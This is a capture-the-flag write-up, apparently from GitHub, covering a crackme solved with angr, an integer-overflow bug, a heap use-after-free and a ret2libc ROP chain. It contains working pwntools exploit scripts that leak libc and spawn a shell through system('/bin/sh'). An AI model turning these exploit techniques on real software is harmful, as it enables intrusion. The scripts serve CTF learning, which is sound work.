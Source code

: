 ## Rev/Easy-Crackme

![image](https://github.com/user-attachments/assets/0bb9c9fc-0c5f-4733-82f8-96ef33e8e61a)

Looking at the decompilation in Ghidra, we can just reassemble the flag from local_78 to local_4f but I decided to use angr to solve it.

<details>
<summary>Angr script</summary>

```py
import angr
import claripy

FLAG_LEN = 42
STDIN_FD = 0
base_addr = 0x00100000

proj = angr.Project("./easy_crackme", main_opts={'base_addr': base_addr})

flag_chars = [claripy.BVS(f"flag_{i}", 8) for i in range(FLAG_LEN)]                                               

flag = claripy.Concat( *flag_chars + [claripy.BVV(b'\n')])  # so that stdin works by adding \n to the end

state = proj.factory.entry_state(stdin=flag)

for c in flag_chars:					# make sure only printable characters
	state.solver.add(c >= ord('!'))
	state.solver.add(c <= ord('~'))

my_simgr = proj.factory.simgr(state)
find_addr = 0x00101435
avoid_addr = 0x0010145a 
my_simgr.explore(find=find_addr, avoid=avoid_addr)

if (len(my_simgr.found) > 0): # If a found state exists
	for found in my_simgr.found:
		print(found.posix.dumps(STDIN_FD)) # Print out the input
```

</details>

![image](https://github.com/user-attachments/assets/dd8c6a01-e80e-4f25-ab30-54c1e2fad345)

## :drop_of_blood: Pwn/Orcwars

![image](https://github.com/user-attachments/assets/21264960-b2c2-461c-91eb-f2ebbe3cfa66)

We are presented with a menu based game where we need to get more troops than the enemy

![image](https://github.com/user-attachments/assets/f8699ce3-687a-4789-bd29-237626d15822)

Our total troops must be at least 0x22a to get the flag.

![image](https://github.com/user-attachments/assets/6b8eeebf-0b8d-492b-9987-9bd50448e129)

The problem lies in the line `if ((int)local_34 < (int)(uVar5 * 100)) {`. The variable uVar5 is declared as an unsigned integer but is being casted to an integer. Hence, we can give a large number of mercenaries. After multiplying by 100, it should result in a negative number due to how integer works.

![image](https://github.com/user-attachments/assets/8903b488-c489-436b-84a8-cd229f4b0bd8)

Enter 1.1 billion

![image](https://github.com/user-attachments/assets/67e7ef6a-00e7-436b-b3aa-f8d4b575d062)

Fake flag because the remote server is not active anymore, so I just ran this locally.

## :drop_of_blood: Pwn/Flag-service

![image](https://github.com/user-attachments/assets/f717f137-9dee-48e0-929d-40b98517fa8a)

Another menu type challenge.

<details>
<summary>Decompiled Code</summary>

```c
    switch(uVar3) {
    case 0:
      puts("not a valid input\n");
      break;
    case 1:
      puts("enter your name :");
      if (local_20 != (undefined8 *)0x0) {
        free(local_20);
      }
      local_20 = (undefined8 *)malloc(0x10);
      puVar4 = (undefined8 *)fgets((char *)local_20,0x10,stdin);
      if (puVar4 == local_20) {
        sVar5 = strlen((char *)local_20);
        *(undefined *)((long)local_20 + (sVar5 - 1)) = 0;
      }
      else {
        puts("error with name !");
        *local_20 = 0x6e776f6e6b6e75;
      }
      break;
    case 2:
      puts("how many flags do you want ? \n(100$ per flag, max 9999 flags)");
      nbflag = get_int_input(1,9999);
      if (!deleted) {
        free(order);
      }
      order = (uint *)malloc(8);
      order[1] = nbflag;
      *order = nbflag * 100;
      printf("you want %d flags, which will cost %d$\n",(ulong)nbflag,(ulong)(nbflag * 100));
      deleted = false;
      fflush(stdin);
      break;
    case 3:
      if (deleted) {
        puts("you don\'t have any order to delete");
      }
      else {
        order[1] = 0;
        *order = 999;
        free(order);
        deleted = true;
        puts("you deleted your order !");
      }
      break;
    case 4:
      if (((int)*order < 0) || ((int)money < (int)*order)) {
        puts("you don\'t have enough money to buy those flags !");
      }
      else {
        money = money - *order;
        flags = order[1];
        puts("you successfully bought the flag !");
        printf("you now have %d flags\n",(ulong)flags);
      }
      if (0 < (int)flags) {
        print_flag();
        bVar2 = false;
      }
      break;
    case 5:
      puts("Bye !");
      bVar2 = false;
      break;
```

</details>

There is a Use-After-Free (UAF) vulnerability in option 3 when deleting an order. After freeing the chunk, the order variable is not set to NULL so the pointer to the freed chunk is still able to be used. Another thing to keep in mind is that malloc(0x8) and malloc(0x10) will return the same sized chunk because the minimum size for a heap chunk is 0x10 bytes (excluding metadata). Hence, the steps of our attack will be as follows

- Create an order chunk
- Delete that order chunk
- Allocate the name chunk, the contents of this chunk will reflect your order chunk. Hence, just make the price of the flag to become $1
- Profit

<details>
<summary>Solve Script</summary>

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./flag_service')
libc = exe.libc

host = "flag-service.warzone-challenges.com"
port = 1339

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

p = exe.process()
# p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

sla(b"exit\n", "2")
sl("1")
sla(b"exit\n", "3")
sla(b"exit\n", "1")
sl(p32(1) + p32(1))
sla(b"exit\n", "4")

p.interactive()
```

</details>

![image](https://github.com/user-attachments/assets/93cbac59-c515-4e0d-99f8-18d7dc772f94)

## :drop_of_blood: Pwn/BabyROP

![image](https://github.com/user-attachments/assets/0a8006ec-9719-4f98-ab92-dcd8055affbf)

Classic BOF challenge with no win function, and only puts() imported into the binary.

![image](https://github.com/user-attachments/assets/4ddff79b-4cb4-49c3-91e0-b8f10dfe90a6)

A pop rdi gadget also conveniently placed for us. Our exploit will be split into 2 stages. First we must leak libc, then we should execute a ret2system.

### Stage 1 payload

```py
offset = 24
pop_rdi = 0x0000000000401283# : pop rdi ; ret

payload = b"a" * offset
payload += p64(pop_rdi)
payload += p64(exe.got["puts"])
payload += p64(exe.plt["puts"])
payload += p64(exe.sym.main)
```

We will overwrite the return address to call puts() and use the GOT address of puts as the argument, then we will loop back to main to trigger BOF again and run our 2nd stage.

![image](https://github.com/user-attachments/assets/d58b7404-de82-418d-8ed0-0e6f006216b9)

We have successfully leaked the libc address `\xa0\xc5s\x8d\x88\x7f`

```py
leak = u64(rl().strip().ljust(8, b"\x00"))
print("leak @ ", hex(leak))
libc.address = leak - libc.sym["puts"]
li(f"libc @ {hex(libc.address)}")
```

We can calculate the base of libc with this.

```py
system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh\x00"))
```

Now, we can search for the address of system() and the string "/bin/sh"

```py
payload = b"a" * offset
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)
```

Finally, we can craft our payload to give us RCE.

<details>
<summary>Solve Script</summary>

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./babyROP_patched')
libc = ELF('./libc.so.6')

host = "baby-rop.warzone-challenges.com"
port = 1343

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

p = exe.process()
# p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

offset = 24
pop_rdi = 0x0000000000401283# : pop rdi ; ret

payload = b"a" * offset
payload += p64(pop_rdi)
payload += p64(exe.got["puts"])
payload += p64(exe.plt["puts"])
payload += p64(exe.sym.main)

sl(payload)

rl()
rl()
rl()
leak = u64(rl().strip().ljust(8, b"\x00"))
print("leak @ ", hex(leak))
libc.address = leak - libc.sym["puts"]
li(f"libc @ {hex(libc.address)}")

system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh\x00"))
li(f"libc @ {hex(system)}")
li(f"libc @ {hex(binsh)}")

payload = b"a" * offset
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

sl(payload)

p.interactive()
```

</details>

![image](https://github.com/user-attachments/assets/ac124e0b-c206-4a4a-b782-4783f527e287)
